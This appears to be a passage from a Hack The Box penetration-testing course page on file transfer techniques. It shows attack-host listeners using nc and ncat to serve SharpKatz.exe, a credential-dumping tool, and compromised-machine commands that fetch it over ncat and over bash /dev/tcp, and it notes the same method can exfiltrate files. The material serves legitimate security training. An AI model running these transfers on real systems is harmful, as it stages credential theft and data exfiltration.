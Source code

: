 Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

  Attack Host - Sending File as Input to Ncat

```shell
Pwn1Sec@htb[/htb]$ # Example using Ncat
Pwn1Sec@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

  Compromised Machine Connect to Ncat to Receive the File

```shell
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

  NetCat - Sending File as Input to Netcat

```shell
Pwn1Sec@htb[/htb]$ # Example using Original Netcat
Pwn1Sec@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat

  Ncat - Sending File as Input to Netcat

```shell
Pwn1Sec@htb[/htb]$ # Example using Ncat
Pwn1Sec@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

  Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Note:** The same operation can be used to transfer files from the compromised host to our Pwnbox.

---

## PowerShell Session File Transfer

